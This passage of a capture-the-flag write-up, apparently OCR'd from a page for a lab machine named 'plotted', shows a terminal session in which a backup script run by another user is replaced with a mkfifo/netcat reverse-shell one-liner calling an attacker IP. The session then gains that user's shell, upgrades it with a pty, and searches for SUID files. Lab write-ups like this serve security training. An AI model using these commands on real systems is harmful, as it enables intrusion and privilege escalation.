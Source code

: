 ```
drwxrwxr-x  3 plot_admin plot_admin 4096 Oct 28  2021 .local                                  
-rw-r--r--  1 plot_admin plot_admin  807 Oct 28  2021 .profile                                
drwxrwx--- 14 plot_admin plot_admin 4096 Oct 28  2021 tms_backup                              
-rw-rw----  1 plot_admin plot_admin   33 Oct 28  2021 user.txt                                

www-data@plotted:/home/plot_admin$ cat user.txt                                               
cat user.txt                                                                                  
cat: user.txt: Permission denied                                                              

www-data@plotted:/home/plot_admin$ find / -type f -user plot_admin 2>/dev/null                
<_admin$ find / -type f -user plot_admin 2>/dev/null                                          
/var/www/scripts/backup.sh                                                                    
/home/plot_admin/.bashrc                                                                      
/home/plot_admin/.bash_logout                                                                 
/home/plot_admin/user.txt                                                                     
/home/plot_admin/.profile                                                                     

www-data@plotted:/home/plot_admin$ cat /var/www/scripts/backup.sh                         
cat /var/www/scripts/backup.sh                                                            
#!/bin/bash                                                                               
                                                                                          
/usr/bin/rsync -a /var/www/html/management /home/plot_admin/tms_backup                    
/bin/chmod -R 770 /home/plot_admin/tms_backup/management                             

www-data@plotted:/var/www/scripts$ mv backup.sh backup_old.sh
mv backup.sh backup_old.sh

www-data@plotted:/var/www/scripts$ echo '#!/bin/bash' > backup.sh
echo '#!/bin/bash' > backup.sh
www-data@plotted:/var/www/scripts$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.0.111 4242 >/tmp/f' >> backup.sh
<sh -i 2>&1|nc 10.4.0.111 4242 >/tmp/f' >> backup.sh

www-data@plotted:/var/www/scripts$ chmod +x backup.sh
chmod +x backup.sh

```
🚩 I waited some seconds and got plot_admin sh.

```
nc -lnvp 4242

listening on [any] 4242 ...
connect to [10.4.0.111] from (UNKNOWN) [10.10.192.17] 49734
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(plot_admin) gid=1001(plot_admin) groups=1001(plot_admin)
$ ls
tms_backup
user.txt
$ cat user.txt
7***************************b
$ python3 -c 'import pty; pty.spawn("/bin/bash")';
plot_admin@plotted:~$ sudo -l
sudo -l
[sudo] password for plot_admin: a

```
```
$ find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null

< -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
-rwsr-xr-x 1 root root 43088 Sep 16  2020 /snap/core18/2284/bin/mount
~~~
```